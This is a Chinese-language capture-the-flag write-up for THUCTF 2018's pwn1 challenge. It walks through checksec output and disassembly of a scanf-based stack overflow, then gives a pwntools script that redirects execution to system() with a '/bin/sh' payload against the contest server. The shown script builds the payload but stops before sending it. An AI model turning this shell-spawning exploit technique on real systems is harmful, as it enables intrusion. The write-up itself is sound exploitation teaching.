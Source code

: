 # THUCTF 2018 Write Up
Team Bakabaka⑨

这次比赛感觉时间太长了，太累了 TwT；
另外关于 pwn1 和 Easy Reverse Revenge，我有两点想吐槽的，写在 write up 最后了

## pwn1

先 `checksec`：
```sh
$ checksec stackoverflow64_withleak
[*] '/tmp/stackoverflow64_withleak'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
题目名称和提示以及 `checksec` 都指明了这题应该是栈溢出

有问题的就是这个 `vul` 函数了

```
.text:000000000040072A
.text:000000000040072A ; Attributes: bp-based frame
.text:000000000040072A
.text:000000000040072A                 public vul
.text:000000000040072A vul             proc near               ; CODE XREF: main+1D↓p
.text:000000000040072A
.text:000000000040072A var_2000        = byte ptr -2000h
.text:000000000040072A
.text:000000000040072A ; __unwind {
.text:000000000040072A                 push    rbp
.text:000000000040072B                 mov     rbp, rsp
.text:000000000040072E                 sub     rsp, 2000h
.text:0000000000400735                 lea     rax, [rbp+var_2000]
.text:000000000040073C                 mov     rsi, rax
.text:000000000040073F                 mov     edi, offset aS  ; "%s"
.text:0000000000400744                 mov     eax, 0
.text:0000000000400749                 call    ___isoc99_scanf
.text:000000000040074E                 mov     rdi, rsp
.text:0000000000400751                 nop
.text:0000000000400752                 leave
.text:0000000000400753                 retn
.text:0000000000400753 ; } // starts at 40072A
.text:0000000000400753 vul             endp
```

通过栈溢出可以控制返回时的 `%rip`；注意到这个过程中 `%rsp`（也就是 `%rbp - 0x2000`）是指向用户输入的，他会传给 `%rdi`，即调用的第一个参数。因此我们让 `%rip` 飞到 `system()` 就行了，最终相当于执行了 `system(我们的输入)`

```Python
from pwn import *

# p = process('./stackoverflow64_withleak')
p = remote('pwn.thuctf2018.game.redbud.info', 20001)
e = ELF('./stackoverflow64_withleak')

s = '/bin/sh' + '\0' * 0x3000
s = s[:0x2008] + p64(e.symbols['system'])

# context.terminal = ['tmux', 'splitw', '-v']
# gdb.attach(proc.pidof(p)[0])

print(p.recv(timeout=1.))
```